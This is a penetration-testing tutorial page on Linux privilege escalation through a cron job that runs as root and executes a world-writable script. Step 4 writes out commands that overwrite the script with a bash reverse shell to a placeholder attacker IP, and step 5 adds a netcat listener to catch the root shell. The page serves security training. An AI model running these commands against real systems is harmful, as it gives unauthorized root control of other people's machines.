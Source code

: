 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation. If we can write to a program or script that is executed as part of a cron job, we can replace it with our own code. This allows us to run arbitrary code with the privileges of the user executing the cron job, potentially gaining unauthorized access and control over the system.

### **Steps to Identify and Exploit Weak File Permission**

1.  By executing LinPEAS, we discover a cron job that runs every minute as root, marked with a red/yellow alert.  
    
    ![](../../../../img/Linux-Environment/87.png)

    ??? info "NOTE"

        Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions of the script executed by the cron job:  
    `ls -la /home/karen/backup.sh`  
    
    ![](../../../../img/Linux-Environment/88.png)

    ??? info "NOTE"

        Here we see “rw”,  This means that we can either replace this file with a malicious one or edit it so that it executes a malicious command for us. 
    
3.  Next, we should Inspect the script to understand its functionality and decide whether to edit or replace it:  
    `cat /home/karen/backup.sh`  
    
    ![](../../../../img/Linux-Environment/89.png)
    
4.  Add the following command to the script that will give us a reverse shell:  
    `echo '#!/bin/bash' > /home/karen/backup.sh`  
    `echo "" >> /home/karen/backup.sh`  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/1338 0>&1' >> /home/karen/backup.sh`  

    ![](../../../../img/Linux-Environment/90.png) 

    ??? info "NOTE"

        In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh` 
    
5.  Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:  
    `nc -lvnp 1338`  
    
    ![](../../../../img/Linux-Environment/91.png)

    In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh`

    ??? info "NOTE"

        Within a minute, the cron job should trigger, and you should obtain a root shell. 